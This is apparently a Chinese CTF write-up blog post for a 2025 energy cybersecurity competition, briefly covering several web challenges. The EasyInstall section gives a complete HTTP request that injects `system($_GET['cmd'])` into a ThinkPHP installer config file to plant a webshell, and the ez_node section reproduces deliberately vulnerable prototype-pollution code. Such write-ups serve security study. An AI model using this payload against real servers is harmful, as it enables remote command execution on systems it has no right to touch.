





+++
title = "能源网络安全大赛2025"
slug = "energy-cybersecurity-competition-2025"
description = "看看题"
date = "2025-04-17T09:34:43"
lastmod = "2025-04-17T09:34:43"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

## 这网页怪怪的

一个IP，放进浏览器会跳转到B站，抓包拿到文件位置





```php
<?php
$flag='flag{ovwWMP5qDbCxJ10pU6AQcu3LtSTKre2k}';
```

## ez_node

访问`/src`得到源码

```js


const express = require('express');
const app = express();
const fs = require("fs")
const mergeValue = require("merge-value")
const bodyParser = require('body-parser')
const handlebars = require("handlebars");
app.use(bodyParser.json())

/*
"dependencies": {
    "body-parser": "^1.19.0",
    "express": "^4.17.1",
    "merge-value": "^1.0",
    "handlebars": "^4.7.7"
  }
 */
app.post('/template', function (req, res) {
    let defaultTemplate = {
        "text": {
            "title": "WriteUp"
        },
        "template": "{{this.title}}{{this.body}}",
        "waf": {
            "black1": "__",
            "black2": "program"
        }
    }
    //禁止覆盖原始的waf值
    if(req.body.wafkey && req.body.wafdata) {
        if (defaultTemplate["waf"][req.body.wafkey]) {
            defaultTemplate["waf"]["custom" + req.body.wafkey] = req.body.wafdata[req.body.wafkey]
        } else {
            defaultTemplate["waf"][req.body.wafkey] = req.body.wafData[req.body.wafkey]
        }
    }
    //取出所有的waf值
    let waf = defaultTemplate["waf"]
    let wafList = []
    for(let wafWord in waf){
        wafList.push(waf[wafWord])
    }
    for(let requestKey in req.body){
        if(typeof req.body[requestKey] === 'string'){
            for(let index in wafList){
                if(req.body[requestKey].toLowerCase().endsWith(wafList[index])){
                    res.send("waf");
                    return;
                }
            }
        }
    }
    let templateData = mergeValue(defaultTemplate,req.body.pathKey,req.body.data)
    let template = handlebars.compile(templateData["template"]);
    res.send(template(templateData["text"]));
});

app.get('/', function (req, res) {
    res.send('see `/src`');
});


app.get('/src', function (req, res) {
    var data = fs.readFileSync('app.js');
    res.send(data.toString());
});

app.listen(3000, function () {
    console.log('start listening on port 3000');
});
```

一道原型链污染的题目，赛后找到是这里，等以后有空复现吧[issue](https://github.com/handlebars-lang/handlebars.js/issues/1495)


## Web_EasyXSS

`/robots.txt`找到密码合集，爆破就直接302跳转了，后面知道好像密码是`iw14Fi9j`



在首页就发现一个注册框子可能是有参数的地方




sqlmap解决

## Web_EEEEEE

go学长砍了1000刀之后说flag在数据库里面，不懂

## Web_phsys

文件上传覆盖一下



## EasyInstall

thinkphp，审计一下发现这里参数可控

```php
/**
 * 写入配置文件
 * @param  array $config 配置信息
 */
function write_config($config, $auth)
{
    if (is_array($config)) {
        //读取配置内容
        $conf = file_get_contents(MODULE_PATH . 'Data/db.tpl');
      
        //替换配置项
        foreach ($configas$name => $value) {
            $conf = str_replace("[{$name}]", $value, $conf);
      
        }

        $conf = str_replace('[AUTH_KEY]', $auth, $conf);
   

        //写入应用配置文件
        if (!IS_WRITE) {
            return'由于您的环境不可写，请复制下面的配置文件内容覆盖到相关的配置文件，然后再登录后台。<p>' . realpath('') . './Modules/Common/Conf/db.php</p>
            <textarea name="" style="width:650px;height:185px">' . $conf . '</textarea>';
        } else {
            $filename = './Modules/Common/Conf/'.md5($_SERVER["REMOTE_ADDR"]).'.php';
            if (file_put_contents($filename, $conf)) {
                chmod($filename, 0777);
               
                show_msg("配置文件 $filename 写入成功");
            } else {
                show_msg('配置文件写入失败！', 'error');
                session('error', true);
            }
            return'';
        }

    }
}
```

可以写入配置文件，那我们写入webshell即可

```php
<?php
return array(

'DB_TYPE'   => '[DB_TYPE]', // 数据库类型
'DB_HOST'   => '[DB_HOST]', // 服务器地址
'DB_NAME'   => '[DB_NAME]', // 数据库名
'DB_USER'   => '[DB_USER]', // 用户名
'DB_PWD'    => '[DB_PWD]',  // 密码
'DB_PORT'   => '[DB_PORT]', // 端口
'DB_PREFIX' => '[DB_PREFIX]', // 数据库表前缀

);
?>
```

构造`','DB_TYPE'=>system($_GET["cmd"]),);?>`：

```http
POST /install.php?s=/Install/step2.html HTTP/1.1
Host: 121.43.235.216:28139
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=bfdf95b17528cbbde374a47d2a6a2d1c; foo_db_config=think%3A%7B%22DB_PREFIX%22%3A%22%2527%252C%2529%253Bsystem%2528%2524_GET%255B%2522a%2522%255D%2529%253B%253F%253E%22%2C%22DB_PORT%22%3A%223306%22%2C%22DB_PWD%22%3A%221%22%2C%22DB_USER%22%3A%221%22%2C%22DB_NAME%22%3A%221%22%2C%22DB_HOST%22%3A%22127.0.0.1%22%2C%22DB_TYPE%22%3A%22mysqli%22%7D
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://121.43.235.216:28139/install.php?s=/install/step2.html
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Origin: http://121.43.235.216:28139
Content-Length: 242

db%5B%5D=mysqli&db%5B%5D=127.0.0.1&db%5B%5D=1&db%5B%5D=1&db%5B%5D=1&db%5B%5D=3306&db%5B%5D=+%27%2C%27DB_TYPE%27%3D%3Esystem%28%24_GET%5B%22cmd%22%5D%29%2C%29%3B%3F%3E&admin%5B%5D=admin&admin%5B%5D=1&admin%5B%5D=1&admin%5B%5D=admin%40admin.com
```

访问后执行命令，找到suid程序`/readflag`

## 小结

没号啊，服了，大部分题目也都是群友的，我环境都没有怎么做嘛
